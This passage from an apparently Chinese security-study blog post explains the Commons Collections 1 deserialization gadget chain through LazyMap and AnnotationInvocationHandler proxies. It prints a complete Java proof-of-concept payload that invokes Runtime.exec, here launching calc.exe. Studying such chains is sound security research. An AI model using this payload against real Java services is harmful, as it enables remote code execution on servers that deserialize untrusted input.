 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231542991.png)

switch default 中调用了 `memberValues.get()`

其它部分跟构造 TransformedMap 时的一样, payload 如下

```java
package com.example.CommonsCollections1;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1LazyMap {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        innerMap.put("value", 123);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap); // 先生成代理 handler

        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler); // 通过 AnnotationInvocationHandler 代理 outerMap

        Object obj = constructor.newInstance(Retention.class, proxyMap); // 这里再创建 AnnotationInvocationHandler, 原因是我们的利用链是 AnnotationInvocationHandler.readObject() -> AnnotationInvocationHandler.invoke() -> LazyMap.get(), 前后两个 AnnotationInvocationHandler 并不相同

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(obj);
    }
}
```
